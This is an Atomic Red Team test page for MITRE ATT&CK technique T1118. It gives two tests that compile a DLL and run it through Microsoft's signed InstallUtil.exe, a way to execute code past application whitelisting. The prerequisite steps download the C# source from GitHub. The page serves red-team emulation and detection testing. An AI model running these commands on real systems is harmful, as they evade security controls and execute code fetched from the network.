# T1118 - InstallUtil
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1118)
<blockquote>InstallUtil is a command-line utility that allows for installation and uninstallation of resources by executing specific installer components specified in .NET binaries. (Citation: MSDN InstallUtil) InstallUtil is located in the .NET directories on a Windows system: <code>C:\Windows\Microsoft.NET\Framework\v<version>\InstallUtil.exe</code> and <code>C:\Windows\Microsoft.NET\Framework64\v<version>\InstallUtil.exe</code>. InstallUtil.exe is digitally signed by Microsoft.

Adversaries may use InstallUtil to proxy execution of code through a trusted Windows utility. InstallUtil may also be used to bypass process whitelisting through use of attributes within the binary that execute the class decorated with the attribute <code>[System.ComponentModel.RunInstaller(true)]</code>. (Citation: LOLBAS Installutil)</blockquote>

## Atomic Tests

- [Atomic Test #1 - InstallUtil uninstall method call](#atomic-test-1---installutil-uninstall-method-call)

- [Atomic Test #2 - InstallUtil GetHelp method call](#atomic-test-2---installutil-gethelp-method-call)


<br/>

## Atomic Test #1 - InstallUtil uninstall method call
Executes the Uninstall Method

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| output_file | location of the payload | Path | %tmp%\T1118.dll|
| source | location of the source code to compile | Path | PathToAtomicsFolder\T1118\src\T1118.cs|


#### Attack Commands: Run with `command_prompt`! 
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /target:library /out:#{output_file}  #{source}
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U #{output_file}
```

#### Cleanup Commands:
```
del #{output_file} >nul 2>&1
```


#### Dependencies:  Run with `powershell`!
##### Description: Source code must exist on disk at specified location (#{source})
##### Check Prereq Commands:
```
if (Test-Path #{source}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```
New-Item -Type Directory (split-path #{source}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1118/src/T1118.cs" -OutFile "#{source}"
```




<br/>
<br/>

## Atomic Test #2 - InstallUtil GetHelp method call
Executes the Uninstall Method

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| output_file | location of the payload | Path | %tmp%\T1118.dll|
| source | location of the source code to compile | Path | PathToAtomicsFolder\T1118\src\T1118.cs|


#### Attack Commands: Run with `command_prompt`! 
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /target:library /out:#{output_file} #{source}
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /? #{output_file}
```

#### Cleanup Commands:
```
del #{output_file} >nul 2>&1
```


#### Dependencies:  Run with `powershell`!
##### Description: Source code must exist on disk at specified location (#{source})
##### Check Prereq Commands:
```
if (Test-Path #{source}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```
New-Item -Type Directory (split-path #{source}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1118/src/T1118.cs" -OutFile "#{source}"
```




<br/>
